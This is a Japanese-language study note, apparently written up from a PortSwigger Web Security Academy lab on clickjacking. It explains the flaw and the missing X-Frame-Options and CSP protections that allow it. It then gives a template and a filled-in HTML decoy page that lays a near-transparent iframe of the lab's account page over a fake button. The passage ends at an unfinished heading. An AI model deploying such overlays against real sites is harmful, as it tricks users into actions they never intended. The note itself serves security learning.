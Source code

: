 ## 脆弱性の説明
- 攻撃者が自分自身で作ったwebサイトにユーザを誘導し、透明化してある正規のサイトの下に攻撃者が作ったボタンを配置する。そうすることで、ユーザはそのボタンを押すが、透明化してある正規のサイトのボタンが押されることによって、ユーザが意図しないリクエストを行ってしまう。

## 攻撃の条件
- 攻撃者が実行させようと使用している処理にログイン後のセッションIDや、CSRFトークンが必要な場合はユーザが事前にそれらの値を持っていることが前提となる。
- サーバ側の実装で別ドメインからの繊維が可能であること。具体的には以下のレスポンスヘッダーが実装されてない場合、悪用できる可能性がある。
```markdown
1. レスポンスヘッダにX-Frame-Optionsヘッダが存在すること

2. レスポンスヘッダまたはレスポンスボディにContent-Security-Policyヘッダ相当の要素が存在すること
```

## 手順 ※一度削除すると20分で何もできなくなるので改めて記載する。
1. 被害者操作:ログインをする。
![[Pasted image 20251002234913.png]]
2. 罠サイトの構築
```html
<style>
    iframe { /** ←これが実際のページ **/
        position:relative;
        width:$width_value; /** 横幅を設定 **/
        height: $height_value; /** 立幅を設定 **/
        opacity: $opacity; /** 明度の設定。ページ作成時は0.1で実際に公開するときは0.0001にする。 **/
        z-index: 2;
    }
    div { /** ←自作するボタン(最背面に設置を行う) **/
        position:absolute;
        top:$top_value; /** ←高さ調整 **/
        left:$side_value;/** ←横幅調整 **/
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"> /** ターゲットのサイト **/
</iframe>
```
- ↓実際の記入例
```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ada00ed03368e89800b0395003e008a.web-security-academy.net/my-account"></iframe>
```

3. 調整時の実際の画面は以下の様になる。
![[Pasted image 20251003174022.png]]
![[Pasted image 20251003174125.png]]

---
## 事前入力されたフォーム入力による

